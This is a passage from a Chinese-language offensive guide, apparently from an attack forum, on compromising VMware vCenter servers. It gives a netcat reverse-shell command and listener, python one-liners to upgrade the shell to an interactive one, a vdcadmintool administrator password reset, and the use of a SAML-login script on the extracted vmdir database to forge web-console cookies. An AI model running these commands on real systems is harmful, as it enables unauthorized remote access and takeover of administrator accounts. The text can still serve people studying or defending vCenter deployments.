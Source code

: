 ![image-20220902155509783.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-1068158a10b3a438807208ce7e9995916e5b2382.png)

Linux使用反弹shell命令

```php
nc -e /bin/sh 10.10.10.10 8888
nc -lvp 8888
```

弹回来若是非交互式shell没有回显，使用以下命令切换为交互式

```php
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220902161936653.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-0c02bcea53d29f1dcc604d4d02e2f61a1590bd97.png)

0x06 获取vcenter-web控制台权限
=======================

重置密码
----

比较快的一种方法，但是修改之后无法获取原来的密码，管理员会发现密码被改

选择 3 选项，输入默认 administrator@vsphere.local （需要管理员权限）

```php
#Linux 
/usr/lib/vmware-vmdir/bin/vdcadmintool 

#Windows 
C:\Program Files\Vmware\vCenter Server\vmdird\vdcadmintool.exe
```

![image-20220829144257277.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-ec55781e81c4dc199cc3320976acea1f342ff522.png)

cookie登录
--------

通过解密数据库登录获取cookie，再用cookie登录web

解密脚本：[https://github.com/horizon3ai/vcenter\_saml\_login](https://github.com/horizon3ai/vcenter_saml_login)

```php
python vcenter_saml_login.py -p data.mdb -t 10.9.16.11 
```

然后会生成相应的cookie，访问 `ui` 路径进行 cookie 替换即可

```php
#Linux
/storage/db/vmware-vmdir/data.mdb

#windows
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
```
